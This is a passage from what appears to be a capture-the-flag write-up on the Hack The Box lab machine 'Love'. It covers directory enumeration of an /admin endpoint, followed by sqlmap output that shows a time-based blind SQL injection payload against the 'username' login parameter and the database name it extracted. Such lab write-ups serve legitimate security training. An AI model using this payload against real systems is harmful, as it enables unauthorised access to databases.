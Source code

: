Port 5000:

<figure><img src="../.gitbook/assets/image (166).png" alt=""><figcaption></figcaption></figure>

After trying few SSRF attempts and more enumeration. All that I found to be useful is the /admin endpoint.

Therefore I tried more directory busting on it to see if there are some php files that are less sanitized. At first I thought it really works because this endpoint had plenty!

```
/includes             (Status: 301) [Size: 346] [--> http://10.10.10.239/admin/includes/]
```

Although nothing much. Then I brought up the injections.

## Footholding

I directly tried them on the /admin endpoint.

```
[22:40:43] [INFO] checking if the injection point on POST parameter 'username' is a false positive
POST parameter 'username' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 539 HTTP(s) requests:
---
Parameter: username (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=tt' AND (SELECT 6225 FROM (SELECT(SLEEP(5)))Pcgn)-- FPrr&password=tt&login=
---
[22:41:23] [INFO] the back-end DBMS is MySQL
[22:41:23] [WARNING] it is very important to not stress the network connection during usage of time-based payloads to prevent potential disruptions 
do you want sqlmap to try to optimize value(s) for DBMS delay responses (option '--time-sec')? [Y/n] Y
web application technology: PHP 7.3.27, Apache 2.4.46
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
[22:41:28] [INFO] fetching current database
[22:41:28] [INFO] retrieved: 
[22:41:39] [INFO] adjusting time delay to 2 seconds due to good response times
votesystem
current database: 'votesystem'
[22:43:00] [INFO] fetched data logged to text files under '/home/czr/.local/share/sqlmap/output/love.htb'
[22:43:00] [WARNING] your sqlmap version is outdated

[*] ending @ 22:43:00 /2025-04-25/

```
